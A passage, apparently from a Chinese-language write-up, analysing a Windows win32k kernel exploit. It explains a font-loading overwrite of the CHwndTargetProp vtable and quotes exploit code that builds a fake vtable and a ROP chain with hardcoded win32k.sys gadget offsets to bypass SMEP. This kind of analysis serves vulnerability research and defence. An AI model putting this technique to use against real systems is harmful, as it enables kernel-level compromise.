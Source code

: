 可以看到开头是一个虚表的地址，我们查看这个虚表的成员如下：

```
kd> dps fffff960`00526d00
fffff960`00526d00 fffff960`0031f470 win32k!CHwndTargetProp::Delete
fffff960`00526d08 fffff960`003b1378 win32k!CHwndTargetProp::GetAtom
fffff960`00526d10 48273f8a`8c7ed206
fffff960`00526d18 6cfcae1f`9eaeabb3

```

前面我们说到，加载字体过程中赋值内存可以覆盖后面的对象，因为我们已经经过了精心的堆布局，因此我们可以就可以覆盖特定的`CHwndTargetProp`的虚表，来实现将其虚表成员函数替换为我们想要执行的函数。 这里字体中覆盖的数据内容为固定的`0x0000000042005000`，那么通过在这个固定的内存位置构架假的虚表，我们就可以获得执行权限 我们可以看到，在攻击代码中，在固定位置（PAYLOAD_BASE)分配内存，并构建假的虚表的过程：

```
1   #define PAYLOAD_BASE 0x42000000
2    
3   *(ULONGLONG*)(PAYLOAD_BASE + 0x5000) = win32k_base_addr + 0x19fab; // pop rax # ret <-- RAX [win32k!CHwndTargetProp::Delete]
4   *(ULONGLONG*)(PAYLOAD_BASE + 0x5008) = win32k_base_addr + 0x6121; // xchg rax, rsp # ret (pivot) <-- this is where (1st) CALL jumps to. [win32k!CHwndTargetProp::GetAtom]

```

当`CHwndTargetProp`的虚表被覆盖后，攻击代码再调用`DestroyDCompositionHwndTarget`函数来释放`CHwndTargetProp`，此时最终调用到内核中，就会跳转到攻击代码已经设置好的虚表函数。

整个过程中，会先调用`win32k!CHwndTargetProp::GetAtom`然后再调用`win32k!CHwndTargetProp::Delete`。

总共过程中会有3次调用到`CHwndTargetProp`的虚表函数：

DestroyDCompositionHwndTarget过程：

第一次： win32k!CHwndTargetProp::GetAtom

第二次: win32k!CHwndTargetProp::Delete

DeatoryWindow过程：

第三次：`win32k!CHwndTargetProp::Delete`

为了绕过Windows8 系统的SMEP保护，这里虚表函数不能使用位于ring3的ShellCode，因此需要使用`win32k.sys`中的代码片段构建ROP，关闭SMEP， 这也就是为什么攻击代码中需要利用我们一开始说的win32k.sys的KASLR绕过漏洞： 为了构建这里所需要的ROP链。 整个构建ROP链的过程如下：

第一步：获取ntoskrnl的函数地址，这里是通过泄露的win32k.sys的地址，硬编码得到win32k.sys中对`ntoskrnl!ExAllocatePoolWithTag`的导入表的地址，然后操作ROP链读取函数地址：

```
1   *(ULONGLONG*)(PAYLOAD_BASE + 0x5010) = win32k_base_addr + 0x19fab;   // pop rax # ret  (RAX is source for our write)
2   *(ULONGLONG*)(PAYLOAD_BASE + 0x5018) = win32k_base_addr + 0x352220;  // pop into rax   (pointer to leaked address of `ntoskrnl!ExAllocatePoolWithTag` that win32k imports)
3   *(ULONGLONG*)(PAYLOAD_BASE + 0x5020) = win32k_base_addr + 0x98156;   // pop rcx # ret  (RCX is destination for our write)
4   *(ULONGLONG*)(PAYLOAD_BASE + 0x5028) = PAYLOAD_BASE + 0x100;         // pop into rcx   (memory to write leaked address)
5   *(ULONGLONG*)(PAYLOAD_BASE + 0x5030) = win32k_base_addr + 0xc432f;   // mov rax, [rax] # mov [rcx], rax # ret (write gadget to [RCX])

```
